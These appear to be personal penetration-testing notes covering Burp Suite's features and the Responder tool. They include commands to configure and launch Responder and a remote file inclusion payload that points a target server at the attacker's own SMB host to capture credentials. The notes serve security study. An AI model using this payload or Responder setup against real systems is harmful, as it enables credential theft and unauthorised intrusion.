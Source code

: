 # Tools

## <mark style="color:green;">Burp Suite</mark>

* Digital plattform tha collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.
  * _Foxy Proxy:_ Browser Extension for using proxy on Burp
  * The standart IP for connection with Burp is 127.0.0.1 on port 8080
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.



## <mark style="color:green;">Responder</mark>

Help in passive obtention of credentials by mounting a SMB server in web

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$value=//$myip/somefile
```
{% endcode %}

***


